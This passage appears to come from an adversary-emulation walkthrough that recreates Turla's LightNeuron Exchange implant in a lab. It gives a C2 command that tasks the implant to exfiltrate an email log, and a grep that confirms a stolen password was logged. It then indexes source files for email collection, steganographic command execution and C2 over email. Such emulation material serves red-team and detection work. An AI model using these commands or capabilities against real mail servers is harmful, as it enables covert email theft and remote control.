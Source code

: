 :arrow_right: Return to the Kali C2 server lower terminal window. Task the LightNeuron implant to exfiltrate the email log file:
```bash
./evalsC2client.py --set-task info@nk.local '3 | 0'
```

* The file contents will be logged by the control server.
:heavy_exclamation_mark: Verify that exfil was logged by the control server by checking the terminal window with the server output or by checking the server log file. The logs should contain the password Egle sent to Zilvinas:
```bash
grep 'dfsbH%T5RWf3bwq3aeGR$3%' /opt/day2/turla/Resources/control_server/logs.txt
```

---

### :moyai: Source Code

* [Installation Script](../../Resources/LightNeuron/msiex.ps1)
* [LightNeuron](../../Resources/LightNeuron/)
  * [Masquerading legitimate file name](../../Resources/LightNeuron/CompanionDLL/data/winmail.dat)
* [Transport Agent](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs)
  * [Remote Email Collection](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L56)
  * [Automated Collection](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L100)
  * [Email Hiding Rules](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L162)
* [Companion DLL](../../Resources/LightNeuron/CompanionDLL/)
  * [Check message against rule file](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L307)
  * [Data Staging/Automated Collection](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L196)
  * [Analyze attachment for data from C2](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L98)
  * [Send message back to C2 server over email](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L130)
* [Steganography](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp)
  * [Decode attachment data from base64](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L437)
  * [Check signature in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L136)
  * [Decrypt data in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L99)
  * [Extract task from image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L302)
  * [Execute commands: Cmd ID 3](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L232)
  * [Execute commands: Cmd ID 5](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L263)
  * [Encrypt result of command in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L51)
  * [Hide result of command in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L184)
  * [Encode data in base64](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L499)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/wp-content/uploads/2019/05/ESET-LightNeuron.pdf>
